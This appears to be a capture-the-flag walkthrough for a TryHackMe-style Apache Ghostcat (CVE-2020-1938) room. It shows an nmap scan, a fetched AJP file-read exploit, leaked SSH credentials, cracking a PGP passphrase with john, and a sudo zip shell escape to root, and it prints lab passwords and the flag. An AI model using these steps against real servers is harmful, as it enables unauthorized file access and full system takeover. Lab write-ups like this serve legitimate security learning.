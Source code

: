
Title: Apache Ghostcat Vulnerability [CVE-2020-1938]

Description: Apache Ghostcat is a new vulnerability with high risk severity discovered by a security researcher in AJP(Apache Jserv Protocol). AJP is an optimized version of the HTTP protocol in binary form and used in scenarios that require clustering or reverse proxies. By default, it is enabled on port 8009. By exploiting this vulnerability an attacker can read any web application files including source code. If the application allows file upload then an attacker can upload any files to the server including malicious Java Server Pages (JSP) and can gain system access.

Check for the /conf/server.xml

If port 8009 using AJP is open we can use an [exploit](https://github.com/00theway/Ghostcat-CNVD-2020-10487).

```
	export IP=10.10.42.24
```

Nmap Scan resuts


```(nmap scan)
	
	nmap -sS -sV $IP

	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	53/tcp   open  tcpwrapped
	8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
	8080/tcp open  http       Apache Tomcat 9.0.30
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Lets check if the /WEB-INF/web.xml file is readable.

wget "https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py"


```(ajpShooter)

python3 ajpShooter.py http://$IP:8080 8009 /WEB-INF/web.xml read
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

we are able to get the ssh credentials.

```
skyfuck:8730281lkjlkjdqlksalks
```
Lets get the user flag

```
ssh skyfuck@$IP 
cd ..
ls
cd merlin
cat user.txt
```
# Task 1: (User Flag)

```
THM{GhostCat_1s_so_cr4sy}
```

We also get pgp file that needs to be decryted to get other users credentials.

Lets use scp to copy the files to ur host system.

```
cd
scp skyfuck@$IP:/home/skyfuck/* .
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```(cracking)
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2020-07-15 23:09) 1.694g/s 1816p/s 1816c/s 1816C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Now we decrypt the pgp file using the credentials.

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
```
su merlin
sudo -l
```

The user merlin has sudo access on zip. So, lets use this usr/bin/zip privilege exclation. 
To perform privilege escalation we need to create any file and zip it. 

ZIP Exploitation(https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/)


touch 1337.txt
sudo zip 1.zip 1337.txt -T --unzip-command="sh -c /bin/bash"

